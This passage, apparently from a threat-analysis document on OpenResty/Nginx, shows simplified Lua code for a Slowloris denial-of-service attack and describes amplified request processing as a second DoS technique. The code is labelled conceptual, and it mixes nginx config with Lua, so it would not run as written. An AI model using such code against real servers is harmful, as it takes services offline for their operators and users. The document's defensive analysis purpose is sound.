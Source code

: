 **Example (Conceptual Lua Code - Slowloris Implementation):**

```lua
-- Conceptual Lua code (simplified) - Slowloris implementation
-- (Note: This is a simplified example and might not be fully functional in a real attack scenario)

local socket = require "socket"

location /slowloris_attack {
  content_by_lua_block {
    local host = "target.example.com" -- Replace with target
    local port = 80

    for i = 1, 100 do -- Create multiple slow connections
      local client = socket.tcp()
      local ok, err = client:connect(host, port)
      if ok then
        client:send("GET / HTTP/1.1\r\nHost: " .. host .. "\r\n") -- Send initial part of request
        ngx.sleep(0.5) -- Sleep to slow down sending
        client:send("X-Slowloris: Still alive\r\n") -- Send more headers slowly
        -- ... continue sending headers slowly ...
        -- Do not send the final \r\n\r\n to keep connection open
      else
        ngx.log(ngx.ERR, "Connection error: ", err)
      end
    end
    ngx.say("Slowloris attack initiated (conceptual).")
  }
}
```

###### 7.2.2. Amplified Request Processing via Lua Logic [HR]

**Description:** Attackers design Lua logic that performs computationally expensive operations for each request. This amplifies the impact of a high volume of requests, even if the requests themselves are simple, leading to DoS.

**Technical Details:**

*   **Amplification Factor:** Lua scripts are designed to perform operations that are significantly more resource-intensive than the incoming request itself.
*   **Example Amplification Logic:**
    *   Database queries per request:  Lua script performs multiple complex database queries for each incoming request.
    *   External API calls per request: Lua script makes multiple calls to slow external APIs for each incoming request.
    *   Complex data processing: Lua script performs computationally intensive data transformations or calculations for each request.
*   **Attack Execution:** Attackers send a high volume of seemingly normal requests. However, each request triggers the amplified processing logic in Lua, quickly overwhelming server resources.
*   **OpenResty/Nginx Context:**  Even if Nginx itself is handling requests efficiently, the Lua logic behind it becomes the bottleneck, leading to DoS.

